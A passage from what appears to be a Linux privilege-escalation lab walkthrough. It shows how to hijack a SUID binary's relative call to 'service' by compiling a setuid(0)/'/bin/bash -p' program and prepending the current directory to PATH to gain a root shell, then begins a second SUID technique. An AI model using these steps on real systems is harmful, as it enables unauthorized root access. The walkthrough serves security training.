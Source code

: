 One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell.

**Victim**

```
gcc -o service /home/user/tools/suid/service.c
```

#### service.c

```
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell.

**Victim**

```
PATH=.:$PATH /usr/local/bin/suid-env
```





## SUID / SGID Executables - Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings

**Victim**

```
strings /usr/local/bin/suid-env2
```

<figure><img src="../../.gitbook/assets/image (9) (4) (1) (1).png" alt=""><figcaption></figcaption></figure>
